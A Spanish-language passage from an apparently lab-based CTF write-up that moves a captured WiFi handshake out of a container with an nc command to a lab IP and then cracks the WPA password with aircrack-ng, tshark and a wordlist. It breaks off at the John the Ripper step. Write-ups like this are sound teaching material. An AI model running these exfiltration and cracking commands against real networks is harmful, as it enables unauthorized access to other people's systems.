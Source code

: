 1. En el contenedor

    ```bash
    nc 10.10.14.28 443 < captured.cap
    ```

Sabiendo que Airgeddon es una utilidad de auditoria wifi intentamos ver lo que contiene el **captured.cap** con la utilidad **aircrack-ng**.

```bash
aircrack-ng captured-cap
```
![aircrack-airgeddon](/assets/images/aircrack-airgeddon.png)

Se ve un ESSID que se llama 
```bash
 To_cl0se_to_th3_Sun 
```
 que parece turbio, y un handshake que significa que alguien a esperado que una victima se connecte
o reconecte tras un ataque de deautentificacion y a recuperado el hash de autentificacion.

Analizando la captura con **tshark** se ve que a sido un ataque de deautentificacion

```bash
tshark -r captured.cap 2>/dev/null
```

o filtrado por deautentificacion

```bash
tshark -r captured.cap -Y "wlan.fc.type_subtype==12" -Tfields -e wlan.da 2>/dev/null
```

#### Crackeo con Aircrack-ng {-}

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt captrured.cap
```

Este crack duraria aprox una hora.

Con investigacion S4vi a pillado una palabra flight en un fichero .txt y buscando por el dios griego del vuelo
encontro que este dios seria icarus.

Para ganar tiempo, se crea un diccionario mas pequeñito que contiene la palabra *icar*

```bash
grep "icar" /usr/share/wordlists/rockyou.txt > dictionary.txt
```

```bash
aircrack-ng -w dictionary.txt captured.cap
```

Ya encontramos la contraseña.

#### Crackeo con John {-}

Extraemos lo que nos interesa del fichero **captured.cap** en un fichero mas pequeñito que se llama Captura.hccap que con la utilidad
**hccap2john** no permite transformarlo en un hash compatible con **John**
